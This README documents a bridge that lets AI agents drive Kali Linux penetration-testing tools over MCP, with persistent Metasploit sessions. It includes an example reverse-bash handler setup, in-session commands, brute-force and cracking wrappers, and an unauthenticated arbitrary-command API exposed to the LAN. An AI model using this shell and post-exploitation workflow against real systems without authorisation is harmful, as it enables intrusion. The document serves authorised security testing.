





# AI Offensive MCP using Kali Linux

AI-assisted offensive security with the **native** Kali Linux MCP server, extended
with a curated set of extra tool wrappers and a **persistent Metasploit session
layer**.

Kali ships an official package, [`mcp-kali-server`](https://www.kali.org/tools/mcp-kali-server/),
which provides a REST API server (`kali-server-mcp`). This project provides a
**host-side MCP bridge** (`mcp_kali_client.py`) so MCP clients on Windows/macOS
(Kiro, Claude Desktop, 5ire) can drive Kali tools over the network, plus:

- **30 MCP tools** grouped by purpose (recon, web, DNS, TLS, SMB/AD, cracking,
  exploitation).
- A **one-line patch** to the native server that fixes a tool-detection /
  execution bug shipped in the current package.
- A **production server launcher** (`serve_prod.py`, Waitress) that removes Flask's
  development-server warning.
- A **Metasploit RPC integration** (`msfrpcd` + `pymetasploit3`) that gives true
  **persistent shells and Meterpreter sessions** across calls.

> ⚠️ **Authorized use only.** Run this only against systems and networks you own
> or have explicit written permission to test. The API can run arbitrary commands
> on the Kali host.

---

## Table of contents

1. [Architecture](#architecture)
2. [Prerequisites](#prerequisites)
3. [Setup — Kali side](#setup--kali-side)
4. [Setup — host side](#setup--host-side)
5. [Connecting the MCP server in your client](#connecting-the-mcp-server-in-your-client)
6. [The required server patch (and why)](#the-required-server-patch-and-why)
7. [Production server (Waitress)](#production-server-waitress)
8. [Available tools (grouped)](#available-tools-grouped)
9. [Example tool calls & test prompts](#example-tool-calls--test-prompts)
10. [Metasploit — persistent sessions](#metasploit--persistent-sessions)
11. [Troubleshooting guide](#troubleshooting-guide)
12. [Security & legal](#security--legal)
13. [Files](#files)
14. [Credits](#credits)

---

## Architecture

Two transports are involved. The host bridge speaks **MCP over stdio** to your AI
client and **HTTP REST** to the Kali API server. The Metasploit layer adds a third
hop that stays **on Kali over localhost**, so the RPC daemon is never exposed to
the network.

```
┌────────────────────────┐   stdio (MCP)   ┌─────────────────────┐   HTTP :5000    ┌───────────────────────────┐
│  MCP Client (host)     │ <──────────────>│  mcp_kali_client.py │ <──────────────>│  kali-server API server   │
│  Kiro / Claude / 5ire  │                 │  (host MCP bridge)  │  192.168.1.9    │  (Flask, patched)         │
└────────────────────────┘                 └─────────────────────┘                 └─────────────┬─────────────┘
                                                                                                  │ localhost :55553
                                                                                                  ▼
                                                                                    ┌───────────────────────────┐
                                                                                    │  msfrpcd (Metasploit RPC) │
                                                                                    │  persistent sessions      │
                                                                                    └───────────────────────────┘
```

- **Native CLI tools** (nmap, gobuster, …) → bridge → `POST /api/tools/*` or
  `POST /api/command` → tool runs on Kali → JSON back.
- **Metasploit** → bridge → `/api/msf/*` on the Kali server → `pymetasploit3` →
  `msfrpcd` over localhost → sessions persist in the daemon between calls.

This repo connects **directly to the Kali IP** (no SSH tunnel). See
[Security & legal](#security--legal) for the tradeoff and how to lock it down.

---

## Prerequisites

**Kali machine**
- Kali Linux (rolling) reachable on the network — note its IP (e.g. `192.168.1.9`).
- `python3` (system interpreter, used by the API server).
- The pentest tools you intend to call (most ship with Kali).

**Host machine (Windows/macOS/Linux)**
- An MCP client (this guide uses **Kiro**).
- **Python 3.10+** on `PATH` (used to launch the bridge).
- Network reachability to the Kali IP on port `5000`.

---

## Setup — Kali side

### 1. Install the native API server

```bash
sudo apt update
sudo apt install mcp-kali-server
```

This provides two binaries:
- `kali-server-mcp` — the REST API server (what this project talks to).
- `mcp-server` — an MCP bridge for clients running *on Kali itself* (not used here).

### 2. Start the API server bound to the network

By default the server binds to `127.0.0.1` (localhost only). To reach it directly
from your host **without an SSH tunnel**, bind it to all interfaces:

```bash
kali-server-mcp --ip 0.0.0.0 --port 5000
```

Verify it is listening on the network interface (not just localhost):

```bash
ss -tlnp | grep 5000      # expect 0.0.0.0:5000, NOT 127.0.0.1:5000
curl http://localhost:5000/health
```

> If you prefer to keep it on `127.0.0.1`, use an SSH tunnel instead
> (`ssh -L 5000:localhost:5000 user@KALI_IP`) and point the bridge at
> `http://localhost:5000`. Direct-IP binding is simpler but less safe — read
> [Security & legal](#security--legal).

### 3. Apply the server patch

The shipped server has a bug that makes tool detection and several tool endpoints
fail. **You must apply the patch** in
[The required server patch (and why)](#the-required-server-patch-and-why) before
the tools work correctly.

> **Shortcut:** if you deploy the bundled `server_patched.py` from this repo (see
> [Deploy to a new Kali box](#deploy-to-a-new-kali-box-office-environment)), the
> patch is **already included** — you can skip the manual `sed` step.

### 4. (Recommended) Run the production server

To avoid Flask's development-server warning and run a hardened server, use the
Waitress launcher (`serve_prod.py`) instead of `kali-server-mcp` directly — see
[Production server (Waitress)](#production-server-waitress).

### 5. (Optional) Metasploit persistent sessions

If you want live shells / Meterpreter, follow
[Metasploit — persistent sessions](#metasploit--persistent-sessions).

### 6. Confirm Kali's IP

DHCP can change it. Confirm and update the host config if needed:

```bash
ip -4 addr show | grep inet
```

---

## Setup — host side

### 1. Install bridge dependencies

```powershell
python -m pip install -r requirements.txt
```

Installs `requests` and `mcp` (the bridge itself needs nothing else — it only
makes HTTP calls).

### 2. Quick connectivity check

```powershell
curl.exe http://192.168.1.9:5000/health
```

A healthy response looks like:

```json
{"status":"healthy","message":"Kali Linux Tools API Server is running",
 "all_essential_tools_available":true,
 "tools_status":{"nmap":true,"gobuster":true,"nikto":true,"dirb":true}}
```

If you get `Connection refused` or a timeout, jump to
[Troubleshooting guide](#troubleshooting-guide).

The Kali API server running and a successful health check from the Windows host:



---

## Connecting the MCP server in your client

Kiro loads MCP servers from a config file — **not** from this repo's `mcp.json`.
Place the config at one of:

- **Workspace:** `.kiro/settings/mcp.json`
- **User level:** `~/.kiro/settings/mcp.json`

```json
{
  "mcpServers": {
    "kali_mcp": {
      "command": "python",
      "args": [
        "C:\\Users\\DEEPAK\\Documents\\Kiro\\AI_Offensive_MCP_Using_KaliLinux\\mcp_kali_client.py",
        "--server",
        "http://192.168.1.9:5000"
      ],
      "timeout": 300,
      "disabled": false,
      "autoApprove": []
    }
  }
}
```

Edit the absolute path to `mcp_kali_client.py` and the `--server` IP to match your
setup.

**Claude Desktop:** use the same `mcpServers` block in
`%APPDATA%\Claude\claude_desktop_config.json` (Windows) or
`~/Library/Application Support/Claude/claude_desktop_config.json` (macOS).

### Connect / reconnect

1. Open the Kiro feature panel → **MCP Server** view.
2. Find `kali_mcp` and click reconnect/refresh (it also connects automatically
   when the config is saved).
3. Ask the agent: *"Check my Kali mcp server health"* — a green `server_health`
   response confirms the chain works.

> **Common gotcha:** if the tools never appear in chat, the server is almost always
> defined only in the repo's `mcp.json` (which Kiro ignores). It must be in
> `.kiro/settings/mcp.json`. After editing the config, reconnect from the MCP panel.

---

## The required server patch (and why)

### The bug

In the shipped `mcp-kali-server`, the command executor was changed to reject
anything that isn't a string:

```python
# CommandExecutor.execute()
if not isinstance(self.command, str):
    raise ValueError(f"CommandExecutor expects a string, but got {type(self.command).__name__}")
cmd_args = shlex.split(self.command)
```

But the callers still pass **lists**:

- The health check calls `execute_command(["which", tool])` → the guard raises →
  every tool is reported as **not available** (`tools_status` all `false`), even
  when nmap/gobuster/nikto/dirb are installed.
- Tool endpoints build list commands, e.g. `command = ["nmap", ...]` → the guard
  raises → the endpoint returns **HTTP 500**.

The `subprocess.Popen` call below the guard already handles both strings and lists
correctly (it sets `shell` per type), so the fix is simply to **remove the guard
and the unused `cmd_args` line**.

### The fix

Back up and patch the system file:

```bash
sudo cp /usr/share/mcp-kali-server/server.py /usr/share/mcp-kali-server/server.py.bak

sudo sed -i \
  -e '/if not isinstance(self.command, str):/d' \
  -e '/raise ValueError(f"CommandExecutor expects a string/d' \
  -e '/cmd_args = shlex.split(self.command)/d' \
  /usr/share/mcp-kali-server/server.py
```

Verify the guard is gone (should print nothing):

```bash
grep -n "CommandExecutor expects a string" /usr/share/mcp-kali-server/server.py
```

Restart the server:

```bash
kali-server-mcp --ip 0.0.0.0 --port 5000
```

Health should now report every tool as `true`:

```json
{"all_essential_tools_available":true,
 "tools_status":{"nmap":true,"gobuster":true,"nikto":true,"dirb":true}}
```

> `sed` line-deletion is blunt — always keep the `.bak`. If anything looks wrong,
> restore with
> `sudo cp /usr/share/mcp-kali-server/server.py.bak /usr/share/mcp-kali-server/server.py`.

### Why this matters

Without the patch you will see two confusing symptoms that look like a broken
install but are not: tools reported missing even though `apt` says they're the
newest version, and `500 Server Error` on the first real scan. The patch resolves
both.

---

## Production server (Waitress)

### Why these two files exist

This repo ships two Python files that run **on Kali** (not on your host):

| File | What it is | Why you need it |
|------|------------|-----------------|
| `server_patched.py` | The **complete Kali API server** — the Flask app with all tool endpoints **plus** the `/api/msf/*` Metasploit routes, with the [list-vs-string bug](#the-required-server-patch-and-why) already fixed. | This is the brain. It is the stock `mcp-kali-server` `server.py` + the patch + the Metasploit integration, bundled so you don't have to re-patch and re-inject by hand on every machine. |
| `serve_prod.py` | A small **production launcher**. It imports the Flask `app` from `server_patched.py` and serves it with **Waitress** (a production WSGI server) instead of Flask's dev server. | Removes the *"This is a development server"* warning and runs a hardened, multi-threaded server. It contains no endpoints itself — it just runs `server_patched.py` better. |

```
serve_prod.py  ──imports & serves──>  server_patched.py  (tools + /api/msf/*)
   (Waitress)                            (the Flask app)
```

They are a **pair**: `serve_prod.py` has nothing to serve without `server_patched.py`
in the same directory.

### Background: the dev-server warning

Running the app with Flask's built-in `app.run()` prints on every start:

```
WARNING: This is a development server. Do not use it in a production deployment.
Use a production WSGI server instead.
```

The dev server works but is single-process and not hardened. `serve_prod.py` fixes
this permanently by serving the same app under Waitress.

### Deploy to a new Kali box (office environment)

> This is the fast path: it skips the manual patch + Metasploit injection because
> `server_patched.py` already contains both. You still install the OS-level
> prerequisites.

**1. Copy both files to Kali** (keep them in the **same directory**, e.g.
`/home/kali/`). Pick whichever transfer method your environment allows:

```bash
# from your host, using scp (if SSH is available on Kali):
scp server_patched.py serve_prod.py kali@KALI_IP:/home/kali/
```

Or use a USB drive / shared folder / git clone — any method works, as long as both
files land in the same folder on Kali.

**2. Install the prerequisites on Kali** (one time):

```bash
sudo apt update
sudo apt install -y mcp-kali-server          # provides the base tooling/deps
python3 -m pip install --break-system-packages waitress
# Only if you want Metasploit persistent sessions:
python3 -m pip install --break-system-packages pymetasploit3
```

**3. Start the production server** from the folder containing both files:

```bash
cd /home/kali
python3 serve_prod.py --ip 0.0.0.0 --port 5000 --threads 8
```

`--ip 0.0.0.0` makes it reachable from your host without an SSH tunnel (read
[Security & legal](#security--legal) for the tradeoff). To keep it private, use
`--ip 127.0.0.1` plus an SSH tunnel instead.

**4. (Optional) Start Metasploit RPC** if you want live sessions — see
[Metasploit — persistent sessions](#metasploit--persistent-sessions).

### Verify the dev server is gone

```bash
curl -I http://KALI_IP:5000/health
```

The response header should read `Server: kali-mcp` (Waitress with a custom ident),
and the development-server warning will no longer appear in the logs.

After this, connect your MCP client exactly as in
[Connecting the MCP server](#connecting-the-mcp-server-in-your-client) — the bridge
and tool calls are identical regardless of which server is running.

> Recommended: run this under systemd so it auto-starts and auto-restarts — see
> [Making it persistent across reboots](#making-it-persistent-across-reboots-systemd).

> **Note on the patch:** because `server_patched.py` already includes the fix, you
> do **not** need to run the `sed` patch from
> [The required server patch](#the-required-server-patch-and-why) when you deploy
> these files. That section is kept for reference / if you ever run the stock
> `server.py` directly.

---

## Available tools (grouped)

30 MCP tools, grouped by purpose. All are exposed by the `kali_mcp` bridge and
callable from your AI client once connected. Only tools actually installed on the
Kali host will succeed — use `server_health` and `execute_command "which <tool>"`
to confirm.

### 🛰️ Network scanning
| Tool | Description |
|------|-------------|
| `nmap_scan` | Port, service, and version detection with Nmap (NSE via `additional_args`). |
| `masscan_scan` | High-speed port sweep across large IP/CIDR ranges. |

### 🌐 Web application
| Tool | Description |
|------|-------------|
| `nikto_scan` | Web server vulnerability and misconfiguration scanner. |
| `gobuster_scan` | Directory / DNS / vhost brute forcing. |
| `dirb_scan` | Recursive web content discovery. |
| `ffuf_fuzz` | Fast web fuzzing (use the `FUZZ` keyword in the URL). |
| `whatweb_scan` | Web technology fingerprinting (CMS, frameworks, servers). |
| `wafw00f_scan` | Detect and identify a Web Application Firewall. |
| `wpscan_analyze` | WordPress vulnerability scanning. |
| `sqlmap_scan` | Automated SQL injection detection and exploitation. |

### 🧭 DNS & subdomain enumeration
| Tool | Description |
|------|-------------|
| `dnsrecon_scan` | DNS enumeration (std, brute, AXFR, SRV). |
| `amass_enum` | Subdomain enumeration (passive by default). |
| `assetfinder_scan` | Quick related-subdomain / asset discovery. |

### 🔐 TLS / SSL
| Tool | Description |
|------|-------------|
| `sslscan_scan` | SSL/TLS protocol and cipher configuration audit. |
| `sslyze_scan` | Deep TLS analysis (cert, ciphers, vulnerabilities). |

### 🪟 SMB / Active Directory
| Tool | Description |
|------|-------------|
| `enum4linux_scan` | Windows / Samba enumeration (shares, users, policy). |
| `smbmap_scan` | Enumerate SMB shares and access permissions. |
| `netexec_run` | netexec (nxc) over smb/ldap/winrm/ssh — enumeration & auth checks. |

### 🔑 Password & hash attacks
| Tool | Description |
|------|-------------|
| `hydra_attack` | Online login brute forcing (ssh, ftp, http-post-form, …). |
| `john_crack` | John the Ripper offline hash cracking. |
| `hashcat_crack` | GPU/CPU hash cracking (set `hash_mode`, e.g. 0=MD5, 1000=NTLM). |

### 💥 Exploitation
| Tool | Description |
|------|-------------|
| `searchsploit_lookup` | Search the local Exploit-DB copy. |
| `metasploit_run` | One-shot Metasploit module run (resource-script style). |

### 🧬 Metasploit — persistent sessions
| Tool | Description |
|------|-------------|
| `msf_status` | Framework version and current open sessions. |
| `msf_run` | Run a module/exploit via the persistent RPC console (supports payloads & jobs). |
| `msf_sessions` | List active shells / Meterpreter sessions. |
| `msf_session_interact` | Run a command inside a live session and read output. |
| `msf_session_kill` | Terminate a session by id. |

### 🩺 Server / utility
| Tool | Description |
|------|-------------|
| `server_health` | API server health + essential-tool availability. |
| `execute_command` | Run an arbitrary command on the Kali host (use with care). |

---

## Example tool calls & test prompts

You drive everything in **natural language** — the AI client picks the matching
tool and chains them for you. Two prompts are all you need to get going.

### Step 1 — Confirm the connection

```
Check my Kali mcp server health and list available tools.
```

A green `server_health` response (all essential tools `true`) confirms the bridge,
the Kali server, and the tools are all working. If anything is off, see the
[Troubleshooting guide](#troubleshooting-guide).



### Step 2 — Run a real recon assessment

Stand up an authorized target you own — e.g. **OWASP Juice Shop**:

```bash
# on a host you own (here, the Kali box itself); bridged networking gives it a LAN IP
docker run -d --rm -p 3000:3000 bkimminich/juice-shop
```

Then access it from your host at `http://<TARGET_IP>:3000` and run this single
prompt in Kiro (replace the IP with your target):

> I'm doing an authorized recon assessment of a web app at http://192.168.1.50:3000
> that I own. Start with an nmap service scan of the host to find open ports, then
> fingerprint the web stack with whatweb, check for a WAF with wafw00f, and run a
> gobuster directory scan with the common wordlist. Summarize the attack surface
> you find and suggest which areas are worth deeper testing; don't exploit anything yet.

The prompt as run in Kiro:



This one prompt chains four tools — `nmap_scan` → `whatweb_scan` → `wafw00f_scan`
→ `gobuster_scan` — and returns a consolidated attack-surface summary. It is a far
better starting point than firing tools one at a time: you describe the goal, the
agent orchestrates the workflow.

The agent's consolidated report — port/service scan, web-stack fingerprint, WAF
check, and directory enumeration:



…followed by the attack-surface summary and prioritized suggestions for deeper
(still authorized) testing:



> **Tip:** always tell the agent the target is **authorized** and whether it should
> stop at recon or proceed further. It will not exploit or open sessions without
> your explicit go-ahead.

### What a call looks like under the hood

Natural language maps to structured tool calls. For example, the nmap step above
becomes:

```json
{ "target": "192.168.1.50", "scan_type": "-sV", "ports": "3000", "additional_args": "-T4 -Pn" }
```

Every tool also accepts an `additional_args` string for raw flags; values are
quoted safely before reaching the shell.

---

## Metasploit — persistent sessions

The built-in `metasploit_run` is **one-shot**: each call boots a fresh
`msfconsole`, runs a resource script, and exits — so a shell it opens does not
survive to the next call. For real post-exploitation you want **persistent
sessions**, provided by the `msf_*` tools backed by `msfrpcd`.

### How it works

```
msf_run / msf_session_interact  →  /api/msf/*  →  pymetasploit3  →  msfrpcd (localhost:55553)  →  sessions persist
```

`msfrpcd` keeps console and session state in memory, so a shell or Meterpreter
opened by one call can be listed, driven, and killed by later calls.

### One-time Kali setup

```bash
# 1. Install the RPC client for the server's python3 (Kali externally-managed env):
python3 -m pip install --break-system-packages pymetasploit3

# 2. Start the RPC daemon, bound to localhost only (recommended):
msfrpcd -P 'CHANGE_ME_STRONG_PASSWORD' -S -a 127.0.0.1 -p 55553

# 3. Confirm it is listening:
ss -tlnp | grep 55553        # expect 127.0.0.1:55553
```

`-S` disables SSL for the RPC socket (fine on localhost). Keep it on `127.0.0.1`
so it is never exposed to the network — the host reaches it indirectly through the
already-open API port 5000.

### Server endpoints

The API server exposes these routes (used by the `msf_*` MCP tools). They read the
RPC password from the `MSF_RPC_PASSWORD` environment variable (default
`KaliMcp!2026` — **change it**), plus `MSF_RPC_HOST` / `MSF_RPC_PORT`.

| Endpoint | Method | Purpose |
|----------|--------|---------|
| `/api/msf/status` | GET | Version + sessions |
| `/api/msf/run` | POST | Run a module/exploit, optionally as a job |
| `/api/msf/sessions` | GET | List sessions |
| `/api/msf/session/interact` | POST | Run a command in a session |
| `/api/msf/session/kill` | POST | Kill a session |

### Example: catch a reverse shell

1. Start a handler as a background job:
```json
// msf_run
{ "module": "exploit/multi/handler",
  "payload": "cmd/unix/reverse_bash",
  "payload_options": { "LHOST": "10.0.0.1", "LPORT": "4444" },
  "run_as_job": true }
```
2. Trigger the payload on the target (out of band).
3. List sessions → `msf_sessions`.
4. Interact:
```json
// msf_session_interact
{ "session_id": "1", "command": "id; uname -a" }
```
5. Clean up → `msf_session_kill { "session_id": "1" }`.

### Making it persistent across reboots (systemd)

The manual `msfrpcd` and `serve_prod.py` commands do not survive a reboot.
To auto-start them, create two systemd services on Kali (adjust user/paths):

```ini
# /etc/systemd/system/msfrpcd.service
[Unit]
Description=Metasploit RPC daemon
After=network.target

[Service]
ExecStart=/usr/bin/msfrpcd -P CHANGE_ME_STRONG_PASSWORD -S -a 127.0.0.1 -p 55553 -f
Restart=on-failure
User=kali

[Install]
WantedBy=multi-user.target
```

```ini
# /etc/systemd/system/kali-mcp-api.service
[Unit]
Description=Kali MCP API server (Waitress)
After=network.target msfrpcd.service

[Service]
Environment=MSF_RPC_PASSWORD=CHANGE_ME_STRONG_PASSWORD
WorkingDirectory=/home/kali
ExecStart=/usr/bin/python3 /home/kali/serve_prod.py --ip 0.0.0.0 --port 5000 --threads 8
Restart=on-failure
User=kali

[Install]
WantedBy=multi-user.target
```

```bash
# stop any manual processes first so they don't fight over the ports
pkill -f 'serve_[p]rod.py'; pkill -f 'msf[r]pcd'; sleep 2

sudo systemctl daemon-reload
sudo systemctl enable --now msfrpcd kali-mcp-api
sudo systemctl status msfrpcd kali-mcp-api --no-pager
```

> The `-f` flag keeps `msfrpcd` in the foreground so systemd can supervise it.
> `serve_prod.py` runs the app under Waitress, so the services never emit the
> Flask development-server warning. Change `CHANGE_ME_STRONG_PASSWORD` in **both**
> files to the same strong value.
>
> Note: the upstream `kali-server-mcp` does **not** include the `/api/msf/*`
> routes or the production launcher — they are part of this project's integration.
> If you reinstall the package, re-apply the
> [server patch](#the-required-server-patch-and-why), the Metasploit endpoints, and
> `serve_prod.py` before enabling the API service.

---

## Troubleshooting guide

These are the real issues encountered while bringing this setup up, with the cause
and fix for each.

### 1. MCP tools never appear in the AI client

**Symptom:** the bridge "works" but no `kali_mcp` tools are callable in chat.
**Cause:** the server was defined only in the repo's `mcp.json`, which Kiro does
not load.
**Fix:** define `kali_mcp` in `.kiro/settings/mcp.json` (workspace) or
`~/.kiro/settings/mcp.json` (user), then reconnect from the MCP Server panel. See
[Connecting the MCP server](#connecting-the-mcp-server-in-your-client).

### 2. `Connection refused` on `http://KALI_IP:5000`

**Symptom:** `curl` from the host gets `Connection refused`, but the host *can*
ping the Kali IP.
**Cause:** the API server is bound to `127.0.0.1` (localhost only), so it rejects
connections coming from the network.
**Fix:** restart it bound to all interfaces and confirm:
```bash
kali-server-mcp --ip 0.0.0.0 --port 5000
ss -tlnp | grep 5000      # must show 0.0.0.0:5000, not 127.0.0.1:5000
```
`Connection refused` = something actively rejected you (wrong bind / nothing
listening). A **timeout** instead usually means a firewall `DROP` or wrong IP.

### 3. `sudo ufw ... : ufw: command not found`

**Symptom:** firewall commands fail because `ufw` isn't installed (Kali doesn't
ship it by default).
**Key point:** `ufw` was only ever a *hardening* suggestion — it is **not**
required for connectivity. With no firewall running, the port is open once the
server binds to `0.0.0.0`.
**Options:**
- **Skip it** — just bind to `0.0.0.0` (step 2) and you're done.
- **Install and scope it** (more secure):
  ```bash
  sudo apt update && sudo apt install -y ufw
  sudo ufw allow from <YOUR_HOST_IP> to any port 5000 proto tcp
  sudo ufw enable
  ```

### 4. Tools reported missing even though `apt` says they're installed

**Symptom:** `server_health` shows `nmap/gobuster/nikto/dirb: false`, yet
`apt install` reports *"X is already the newest version"* and `which nmap` finds
it.
**Cause:** the server bug described in
[The required server patch](#the-required-server-patch-and-why) — the health check
passes a list to a command executor that now rejects lists, so every check fails.
**Fix:** apply the patch, restart, re-check health. (The apt "configured multiple
times" warnings about `vscode.list`/`vscode.sources` are unrelated and harmless.)

### 5. `500 Server Error` on the first real scan (e.g. nmap)

**Symptom:** `execute_command` can run a tool fine, but the dedicated endpoint
(`/api/tools/nmap`) returns HTTP 500.
**Cause:** same list-vs-string bug — tool endpoints build list commands.
**Fix:** apply the [server patch](#the-required-server-patch-and-why).

### 6. Kali's IP changed (DHCP / VM networking)

**Symptom:** everything worked yesterday, now `Connection refused` / unreachable.
**Cause:** DHCP reassigned the Kali IP, or the VM is on NAT instead of bridged.
**Fix:**
```bash
ip -4 addr show | grep inet     # find the current IP on Kali
```
Update `--server` in `.kiro/settings/mcp.json` to the new IP and reconnect. For
VMs, prefer **bridged networking** (or a static IP / DHCP reservation) so the IP
is stable.

### 7. SSH to Kali times out (but port 5000 works)

This is informational: SSH (port 22) being closed does not affect the MCP setup,
which only needs port 5000. If you *want* SSH, ensure `ssh` is enabled on Kali
(`sudo systemctl enable --now ssh`).

### 8. msfrpcd port (55553) refused from the host

**Symptom:** the host cannot reach `KALI_IP:55553`, even though `msfrpcd` is
listening and works locally on Kali (HTTP 200 via `curl localhost:55553`).
**Cause:** a firewall on the path allows 5000 but not 55553, and/or `msfrpcd` is
(correctly) bound to localhost.
**Resolution — by design:** do **not** expose 55553. The API server on port 5000
proxies to `msfrpcd` over localhost via the `/api/msf/*` endpoints. Keep `msfrpcd`
on `127.0.0.1`; the host only ever talks to port 5000. This is both the secure and
the working architecture.

### 9. `pkill -f msfrpcd` kills your own shell / returns -15

**Symptom:** running `pkill -f msfrpcd` returns code `-15` and seems to kill the
command itself.
**Cause:** `-f` matches the **full command line**, and your `pkill` command line
contains the string `msfrpcd`, so it matches and signals its own process tree.
**Fix:** use a bracketed pattern so the regex doesn't match itself:
```bash
pkill -f 'msf[r]pcd'
```
Then verify: `pgrep -af msfrpcd || echo NONE_RUNNING`.

### 10. `pip install` fails with "externally-managed-environment" on Kali

**Symptom:** installing `pymetasploit3` for the system `python3` is blocked.
**Fix:** Kali marks the system env as externally managed; use:
```bash
python3 -m pip install --break-system-packages pymetasploit3
```

### 11. Bridge won't start / client errors

```bash
# Run the bridge manually to see logs:
python mcp_kali_client.py --server http://192.168.1.9:5000 --debug
```
Check the absolute path to `mcp_kali_client.py` and the `python` command in your
MCP config are correct.

### 12. Transferring files to Kali reliably

When copying scripts to Kali through the command API, base64-encode on the host,
decode on Kali, and **verify with a checksum** rather than pasting text (manual
paste can corrupt characters):
```bash
# on Kali, after writing the file:
sha256sum /path/to/file      # compare against the local sha256
```

### 13. "This is a development server" warning on startup

**Symptom:** the server logs
`WARNING: This is a development server. Do not use it in a production deployment.`
**Cause:** the API is running on Flask's built-in dev server (`app.run()`). It
works, but is not meant for sustained use.
**Fix:** run it under Waitress via `serve_prod.py` — see
[Production server (Waitress)](#production-server-waitress). Confirm with
`curl -I http://KALI_IP:5000/health` showing `Server: kali-mcp`.

### 14. `msf_*` tools return 404, or sessions stop working after a restart

**Symptom:** `/api/msf/status` returns `404 Not Found`, or MSF tools that worked
before now fail.
**Cause:** the server was restarted from a file that lacks the `/api/msf/*` routes
(e.g. the stock `/usr/share/mcp-kali-server/server.py` instead of the complete
`server_patched.py`).
**Fix:** start the server from the complete file via `serve_prod.py` (it imports
`server_patched.py`). Verify the routes exist:
```bash
curl -s http://127.0.0.1:5000/api/msf/status
```
If it instead returns `Connection refused` to port 55553, the routes are fine but
`msfrpcd` isn't running — start it (see
[Metasploit setup](#one-time-kali-setup)).

---

## Security & legal

This project is for **educational and authorized testing only**.

- The `execute_command` tool and the underlying API run **arbitrary commands** on
  the Kali host with no authentication.
- Binding the API to `0.0.0.0:5000` exposes that capability to your whole LAN.
  This is convenient for a lab but risky on any shared/untrusted network.
